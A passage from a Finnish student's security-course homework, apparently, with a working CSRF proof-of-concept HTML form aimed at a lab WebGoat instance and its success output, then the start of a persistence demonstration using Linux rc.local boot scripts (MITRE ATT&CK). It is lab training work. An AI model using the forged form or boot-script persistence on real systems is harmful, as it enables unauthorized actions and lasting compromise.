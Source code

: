         Tein taas pienen .html -tiedoston johon kopioin lomakkeen rivit WebGoatista:  
        ``` 
        <!DOCTYPE html>
        <html>
            <body>
                <form class="attack-form" accept-charset="UNKNOWN" id="csrf-review" method="POST" name="review-form" successcallback="" action="http://192.168.56.7:8080/WebGoat/csrf/review">
                    <input class="form-control" id="reviewText" name="reviewText" placeholder="Add a Review" type="text">
                    <input class="form-control" id="reviewStars" name="stars" type="text">
                    <input name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
                    <input type="submit" name="submit" value="Submit review">
                </form>
        </body>
        </html>
        ```
        Lomake siis action toiminnon kautta lähettää (POST-kutsu) tiedot määritettyyn url osoitteeseen.  

        Testasin tiedostoa selaimelta ja lopputulos oli onnistunut:  
        ```
        lessonCompleted	true
        feedback	"It appears you have submitted correctly from another site. Go reload and see if your post is there."
        output	null
        ```


## b) Attakin alatekniikat. Demonstroi kaksi (2) alatekniikkaa (subtechnique) ATT&CK kehikosta. Tässä pitää siis käyttää näitä käytännössä johonkin harjoitusmaaliin. Voit käyttää haluamiasi valmiita työkaluja tai koodata / skriptata itse. Voit valita valmiin harjoitusmaalin tai tehdä sen itse. Muista, että myös tiedustelussa pitää noudattaa lakia, etiikkaa, rajauksia (scope) ja hyviä tapoja.  

### Boot or Logon Initialization Scripts: RC Scripts 

Lähde:  
https://linuxhint.com/use-etc-rc-local-boot/
Rc scripts on vastuussa eri palveluiden käynnistämisestä ja skriptien ajamisesta koneen startupin yhteydessä. Mikäli ymmärsin oikein moderneissa Linux -jakeluissa system rc.local palvelu ei ole enää käytössä ja pitää erikseen käynnistää, jotta sen saa käyttöön. rc.local on vastuussa sellaisten startup toimintojen ajamisesta joiden ei haluta häiritsevän tärkeitä järjestelmäkomponentteja.  

Tarkoitus: Pysyvyyden varmistaminen kohdejärjestelmässä  
Demonstraation käyttöjärjestelmä: Linux Debian 11 Bullseye  
Pohjavaatimus: Root käyttäjä kohdekoneella  

Tarkistin ensin löytyykö rc.local -tiedostoa:  

    $ sudo ls /etc/rc
    $ rc0.d/ rc1.d/ rc2.d/ rc3.d/ rc4.d/ rc5.d/ rc6.d/ rcS.d/
